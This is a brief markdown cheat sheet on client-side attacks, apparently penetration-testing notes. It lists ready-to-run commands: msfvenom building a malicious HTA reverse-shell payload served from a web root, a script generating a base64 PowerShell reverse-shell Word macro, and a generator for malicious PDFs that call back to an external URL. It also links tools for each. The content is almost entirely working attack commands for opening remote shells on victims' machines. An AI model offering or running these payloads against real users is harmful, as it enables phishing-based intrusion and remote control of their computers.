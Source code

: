 # Client-Side Attacks
## HTA Attack in Action

-> Get web browser name, operating system, device type  
https://explore.whatismybrowser.com/useragents/parse/#parse-useragent

-> Creating a malicious .hta with msfvenom
```bash
sudo msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f hta-psh -o /var/www/html/evil.hta
```

## Microsoft Word Macro Attack
-> Generate a malicious macro for reverse shell in powershell using base64 for .doc
```bash
python evil_macro.py -l <ip> -p <port> -o macro.txt
```
https://github.com/rodolfomarianocy/Evil-Macro/

## Malicious PDF
-> Malicious PDF Generator
```bash
python3 malicious-pdf.py burp-collaborator-url
```
https://github.com/jonaslejon/malicious-pdf

-> evilpdf  
https://github.com/superzerosec/evilpdf
